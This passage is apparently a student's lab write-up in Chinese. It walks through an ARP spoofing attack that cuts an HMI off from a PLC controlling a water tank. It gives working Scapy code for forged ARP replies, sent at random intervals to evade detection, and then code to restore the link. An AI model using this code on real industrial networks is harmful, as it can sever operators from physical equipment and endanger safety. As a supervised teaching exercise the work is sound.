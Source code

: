 得到PLC和HMI的MAC地址分别为`e0:dc:a0:36:bf:fd`和`e0:dc:a0:30:2f:3f`

### 2. 构造ARP欺骗包并发送至HMI

```python
atk = ARP(psrc="192.168.1.3", hwsrc="ee:ee:ee:ee:ee:ee", hwdst="e0:dc:a0:30:2f:3f", pdst="192.168.1.4", op='is-at')
send(atk, inter=RandNum(10,20), loop=1)
```

#### **a. 创建一个 ARP 数据包**

`ARP()` 用于构造一个 ARP 数据包，其中参数决定了该数据包的类型和内容。

- `psrc="192.168.1.3"`：  
  **伪造的源 IP 地址**。攻击者冒充设备 `192.168.1.3`。
  
- `hwsrc="ee:ee:ee:ee:ee:ee"`：  
  **伪造的源 MAC 地址**。攻击者假冒的 MAC 地址，与上面的 `psrc` 一起形成虚假的 IP-MAC 映射。
  
- `hwdst="e0:dc:a0:30:2f:3f"`：  
  **目标设备的 MAC 地址**。攻击者欺骗的目标设备，表示将包直接发送给这个设备。
  
- `pdst="192.168.1.4"`：  
  **目标设备的 IP 地址**。这是被欺骗的设备的 IP 地址。

- `op='is-at'`：  
  表示这是一个 **ARP 响应包**，即“某 IP 地址位于某 MAC 地址”。这是 ARP 欺骗的核心。

#### **b. 发送数据包**

```python
send(atk, inter=RandNum(10,20), loop=1)
```
- `send()`：  
  Scapy 函数，用于发送构造的网络数据包。

- `inter=RandNum(10,20)`：  
  **随机间隔时间**，表示每隔 `10` 到 `20` 秒之间的随机时间发送一次数据包，防止被目标快速检测到。

- `loop=1`：  
  设置为 `1`，表示循环发送伪造的 ARP 响应包。

### 3. 验证攻击是否成功

这时我们发现屏幕（HMI）已经无法控制PLC储水罐了，并且当前的储水量，高低警报限制也显示错误，这表明HMI已经失去了对PLC的控制。（现场已由老师检查）

![image-20241116200801245](C:\Users\ZZB\AppData\Roaming\Typora\typora-user-images\image-20241116200801245.png)

### 4.复原现场

首先中断atk包的发送，然后发送resume包

```python
resume = ARP(psrc="192.168.1.3", hwsrc="e0:dc:a0:36:bf:fd", hwdst="e0:dc:a0:30:2f:3f", pdst="192.168.1.4", op='is-at')
send(resume, inter=RandNum(1,10), loop=1)
```

